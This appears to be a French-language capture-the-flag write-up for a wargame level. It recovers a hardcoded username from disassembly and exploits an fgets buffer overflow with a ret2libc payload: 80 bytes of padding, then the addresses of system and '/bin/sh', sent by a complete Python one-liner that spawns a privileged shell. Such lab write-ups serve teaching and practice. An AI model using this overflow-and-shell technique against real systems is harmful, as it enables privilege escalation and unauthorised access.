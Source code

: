 # Level 01

En vérifiant la liste des symboles disponibles, on trouve:

```text
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
```

On peut voir une fonction `verify_user_name` et une fonction `verify_user_pass`. Regardons ça.

## Username

Dans `verify_user_name`, on trouve:

```
0x08048478 <+20>:	mov    edx,0x804a040
0x0804847d <+25>:	mov    eax,0x80486a8
0x08048482 <+30>:	mov    ecx,0x7
0x08048487 <+35>:	mov    esi,edx
0x08048489 <+37>:	mov    edi,eax
0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

On peut deviner que le nom d'utilisateur est stoqué soit à `0x804a040` ou à `0x80486a8`. Après
avoir vérifié les deux adresses, on trouve que `0x80486a8` pointe vers la chaine `dat_wil`. C'est
notre nom d'utilisateur.

## Password

On pourrait essayer de reverse la fonction de mot de passe (et ça marcherait, il contient la chaine
de caractère `admin`). Cependant, cela ne sert à rien parce le résultat de cette fonction n'est pas
utilisé. Ça donne quelque chose du genre:

```c
int ret = verfiy_user_pass(&buf);
if (ret == 0 || ret != 0) {
    puts("nope");
    return 1;
}
```

Et puis de toute manière, même si la fonction marchait normalement, elle ne nous servirait à rien
parce qu'après ça, le programme s'arrête simplement sans nous donner la suite du sujet.

Il nous faut donc trouver un moyen de s'arranger pour le programme nous lance un shell avec son
niveau de privilège. Pour ça, on peut exploiter une vulnérabilité de la fonctions `fgets`, qui a
été mal protégée.

```c
char buf[64];
fgets(buf, 100, stdin);
```

On voit ici que `fgets` croit écrire dans un buffeur de taille 100, alors qu'en réalité le buffer
n'a une taille que de 64 octets. En concéquence, on peut essayer d'utiliser le fait que cette
fonction écrira trop loin pour écraser d'autres données du programme.

On va écraser l'adresse de retour de notre fonction pour y écrire l'adresse de `system`. Comme
`system` veut en premier paramètre le chemin d'accès vers un program à lancer, l'idée est de lui
donner `/bin/sh`.

Grace à l'outil [Wiremark](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), on peut
facilement déterminer que le buffer atteint l'adresse de retour après 80 octets.

![Stack Frame Overflow](./stack.png)

Le but est donc:

- Remplire la stack avec 80 octets random.

- Mettre l'adresse de `system`.

- Remplire la stack avec 4 octets random. C'est l'adresse de retour après que `system` ai terminé.

- Mettre les paramètres pour `system`. C'est là qu'on met l'adresse de `/bin/sh`.

On peut faire un petit script python pour générer l'output correct.

On peut trouver les addresses que l'on souhaite avec `gdb`.

- `find &system,+9999999,"/bin/sh"` donne l'adresse de `/bin/sh`.

- `print &system` donne l'adresse de `system`.

| system     | /bin/sh    |
---------------------------
| 0xf7e6aed0 | 0xf7f897ec |

```sh
(python -c "print 'dat_wil\n' + 'a' * 80 + '\xd0\xae\xe6\xf7' + '0000' + '\xec\x97\xf8\xf7' " ; cat -) | ./level01
```

On peut noter que les octets sont inversé parce que la machine est petit-boutiste.

Avec ça, on exécute le shell avec les permissions du programme, et on a un shell avec les
permissions du niveau suivant.
